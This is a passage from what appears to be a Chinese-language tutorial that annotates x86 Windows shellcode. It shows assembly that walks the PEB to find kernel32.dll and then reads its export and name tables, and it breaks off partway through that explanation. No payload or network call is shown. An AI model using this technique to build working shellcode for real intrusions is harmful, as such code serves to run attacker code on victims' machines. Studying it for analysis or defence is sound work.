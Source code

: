         ![ ](images/修改后组.png)

- 解读这段shellcode代码  
    - 获取 ```kernel32.dll``` 的地址，并压入栈中
    ```
    get_kernel32_address:
    xor eax, eax
    mov eax, [fs:eax+0x30] ; EAX = &PEB
    mov eax, [eax+0xC]     ; EAX = &LDR
    mov esi, [eax+0x1C]    ; ESI = 1st entry InitOrderList - ntdll.dll
    lodsd                  ; EAX = 2nd entry InitOrderList - kernelbase.dll
    xchg esi, eax
    lodsd                  ; EAX = 3rd entry InitOrderList - kernel32.dll
    mov eax, [eax+0x8]     ; EAX = &Kernel32.dll
    push eax
    ```
    - 获取 ```kernel32.dll``` 的导出表地址，存储在 EBX 中
    ```
    get_kernel32_export_table:
    mov ebx, [eax+0x3C] ; EBX = RVA NewEXEHeader
    add ebx, eax        ; EBX = &NewEXEHeader
    mov ebx, [ebx+0x78] ; EBX = RVA ExportTable
    add ebx, eax        ; EBX = &ExportTable
    ```
    - 根据导出表地址，获取导出名字表的地址，存储在 EDX 中
    ```
    get_export_name_table:
    mov edx, [ebx+0x20] ; EDX = RVA ExportNameTable
    add edx, eax        ; EDX = &ExportNameTable
    ```
    - 根据导出表地址，获取导出序号列表的地址，并压入栈中
